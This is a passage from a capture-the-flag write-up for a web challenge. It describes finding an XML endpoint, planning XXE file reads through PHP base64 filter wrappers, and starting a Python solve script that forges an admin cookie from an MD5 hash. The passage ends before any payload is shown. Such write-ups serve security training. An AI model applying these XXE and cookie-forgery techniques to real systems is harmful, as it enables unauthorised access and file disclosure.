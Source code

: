 ![](_attachments/Pasted%20image%2020250331205617.png)

remove hidden attribute and try submitting the request and check the network tab we see it accepts an XML entity in the following format:

```xml
<root>
	<name>John</name>
	<email>john@swamptech.com</email>
</root>
```


Use XXE payloads to get the flag, since the stack is using PHP, i tried to exfil PHP wrappers filter base64 function to not break xml from special characters  

solve.py
```python
import requests as r 
import base64
import hashlib 

url = "http://chals.swampctf.com:40043"

user = "admin"
headers = {
    "Cookie": f"user={hashlib.md5(user.encode()).hexdigest()}",
}

def submit_process(xml):
    data = {
        "submitdata": xml
    }
    resp = r.post(f"{url}/process.php", headers=headers, data=data)
```